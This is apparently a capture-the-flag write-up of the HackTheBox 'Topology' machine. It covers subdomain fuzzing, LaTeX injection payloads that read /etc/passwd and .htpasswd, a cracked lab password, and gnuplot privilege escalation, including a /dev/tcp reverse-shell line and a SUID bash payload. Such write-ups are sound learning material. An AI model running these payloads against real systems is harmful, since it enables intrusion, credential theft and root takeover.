 
## Reconnaissance

### nmap 

> Scan Target Machine

![](./IMG/0.png)

![](./IMG/1.png)

### Web Service 

- Home Page 
![](./IMG/2.png)

- Clicke 'Latex  Equation Generator' 
- If the /etc/hosts has set up the domain, it will redirect to latex.topology.htb/equation.php
![](./IMG/3.png)
- If I tried to access latex.topology.htb directly, it will response a directory page 
![](./IMG/16.png)
### Gobuster 

- Gobuster scan the domain 
```
gobuster dir -u http://10.10.11.217 -w /usr/share/wordlists/dirb/common.tx -o toplogy1.out
```
![](./IMG/4.png)
![](./IMG/5.png)

### ffuf 


- Besides gobuster result, since there is a subdomain latex.topology.htb.
- I think it might have another subdomain.
- So I used FFuF to scan it 
```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-topmillion-5000.txt:FUZZ -u http://topology.htb -H "Host:FUZZ.topology.htb" 
```
- Without filter, it will show a lot of unsuccess domain, so I filter by 'Words'.
![](./IMG/23.png)
![](./IMG/24.png)
- Add filter condition
```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-topmillion-5000.txt:FUZZ -u http://topology.htb -H "Host:FUZZ.topology.htb" -fw 1612
```
![](./IMG/21.png)

![](./IMG/22.png)
- Access the result subdomain

![](./IMG/20.png)

- dev one need credential.
![](./IMG/19.png)
- I didn't have credentials
![](./IMG/26.png)

## Exploit 

- Start intercept the request with Burp 
- Intercept the Generate latex code

![](./IMG/6.png)

- According to this [article](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)
  ![](./IMG/17.png)
  - I also tried the payload, but it didn't reply "Illega command detected"
```
\input{/etc/passwd}
```
![](./IMG/9.png)
- So, follow the instruction, I add '$' and '\[]'
```
\$input{/etc/passwd}$
\[input{/etc/passwd}]
```
- It didn't replied anything, even the error message.
![](./IMG/7.png)
![](./IMG/8.png)
- But I felt strange that the response is empty, so I resend it several times.
- It response "Illegal command detected" again. (It's weird)
![](./IMG/10.png)
![](./IMG/11.png)
- Because the error message, no matter the special character('$ , \[') exist or not, it will show, so I think maybe the error not caused by the special character.
- So I change my payload
```
\lstinputlisting{/etc/passwd}
\$lstinputlisting{/etc/passwd}$
\[lstinputlisting{/etc/passwd}]
```
![](./IMG/13.png)
![](./IMG/12.png)
- Then the payload with '$' success to get my expect response.
![](./IMG/14.png)
- Now I can read the file in server, but the page seems can't show the whole file content.
- But I still find my target, that's enough.
```
vdaisley
```

![](./IMG/15.png)
- So I keep change the payload to read the file
```
\$lstinputlisting{/etc/os-release}$
```

![](./IMG/18.png)

- According to the ffuf result, I know there is a subdomain named 'dev'.
- So there might have a directory also named 'dev' in /var/www
- And according to the error message, I know the dev site runs on Apache
![](./IMG/26.png)
- Try to access the .htaccess which is an important config file in Apache service.
```
\$lstinputlisting{/var/www/dev/.htaccess}$
```
- I got a clue.
```
AuthUserFile /car/www/dev/.htpasswd
```
![](./IMG/25.png)
- So I also access to this file, too.
```
\$lstinputlisting{/var/www/dev/.htpasswd}$
```
- I found the credential for vdaisley
![](./IMG/27.png)

- Copy it as a file and crack it by john
![](./IMG/29.png)
```
john vdaisley.hash --wordlist="/usr/share/wordlists/rockyou.txt"
```
![](./IMG/28.png)
- Got the vdaisley's credential 
```
vdaisley / calculus20
```
## Privilege Escalation 


- So far, I get vdaisley's credential 
- I can use it to login to SSH
```
ssh vdaisley@10.10.11.217
```

![](./IMG/30.png)
- Confirm the current user 
```
id
whoami
```

![](./IMG/31.png)
- Checking the user flag first 
![](./IMG/32.png)
- And, actually the ssh shell is kind of strange, It start with '-bash-5.0$'
- I think that is caused by other challenger has escalate the privilege.
- But it's not matter, I still can enumerate and find the real vulnerability to escalate the privilege.
- Check sudo permission list, Failed 
```
sudo -l
```
![](./IMG/33.png)
- Check SUID to find the execute permission which set to 's'
```
find / -perm -u=s 2>/dev/null
```
![](./IMG/34.png)
- Upload pspy64s and check the current process
- It's easy to find an unusual and repeat process 
```
gnuplot /opt/gnuplot/loadplot.plt
bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
```

![](./IMG/38.png)
- With this clue, I research about how to escalate the privilege by gnuplot.
- I found this [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/)
![](./IMG/40.png)
- Follow the payload guide, I do the following things 
```
echo "system 'bash -i >& /dev/tcp/10.10.16.23/4444 ->&1'" >> /opt/gnuplot/hacked.plt
```
- But it didn't reverse shell to my nc
- So, I tried to change the method to change the /bin/bash permission.
```
echo "system 'chmod u+s /bin/bash'" >> /opt/gnuplot/hached2.plt
```

![](./IMG/37.png)
- Then, use the following command to escalate the bash permission
```
bash -p
```
- And success to get root permission
![](./IMG/36.png)
- Get root flag
![](./IMG/35.png)

## Reference 
### Writeup

- [Topology — HTB](https://medium.com/@Char0n_0x04/topology-htb-1e4cf07d7805)
### Latex Injection 
- [(HackTricks)Formula/CSV/Doc/LaTeX/GhostScript Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)

![](./IMG/17.png)

### John the Ripper

- [John The Ripper Hash Formats - md5 – FreeBSD MD5](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)

![](./IMG/39.png)

### Gnuplot privilege Escalation

- [Gnuplot Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/)

![](./IMG/40.png)

###### tags: `HackTheBox` `latex injection` `gnuplot escalation`  `Apache webservice`